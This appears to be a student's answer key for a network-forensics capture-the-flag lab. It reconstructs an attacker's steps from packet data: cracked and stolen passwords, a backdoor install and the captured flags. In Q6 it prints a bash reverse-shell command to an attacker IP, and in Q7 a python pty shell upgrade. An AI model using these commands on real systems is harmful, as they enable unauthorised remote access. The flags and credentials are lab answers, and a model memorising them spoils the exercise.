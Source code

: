 # Q1

  - FTP
  - FTP-DATA
  - HTTP
  - ICMP
  - MySQL
  - TCP
  - TLSv1.3
---

# Q2

  ### The correct password is `batman`
  
  ![image](https://user-images.githubusercontent.com/118754984/220819918-f8df9b62-c9bc-49cf-9a6e-1aea98bf729a.png)
  ---
  
# Q3

  The attacker managed to get a file called credentials.txt and the bash history. (refer to the previous screenshot)
  The credentials.txt file had the credentials for the database:
  
    username: myuser
    password: P@ssw0rd123456!
    
# Q4
  
  He logged into the database using these credentials:
    
    username: myuser
    password: P@ssw0rd123456!
    
   
# Q5

  username: root
  password: 1amgr000000t!@#$
  
  
# Q6

  packet no. 2686
  
  command = `bash -c 'bash -i >& /dev/tcp/192.168.0.106/4444 0>&1'`
  
  
# Q7

  He spawned a stable python shell:
    
    python3 -c "import pty; pty.spawn('/bin/bash');"
    
  He also installed a backdoor (available in the lab manual repository)
  
# Q8

  He read gr00t.txt which had a flag
  `flag{1_4m_gr00000t!}`
  
# Q9
  
  To install a backdoor in the system which listens for a connection

# Q10
  
  I changed the backdoor python script to decode the commands that the attacker used:
  (The script I used is attached)
  
    id

    cat gr00t.txt

    echo "flag{c0ngrats_1f_y0u_m4d3_1t_t1ll_h3r3_ch4mp}" | whoami

  
  

  
  
  
  
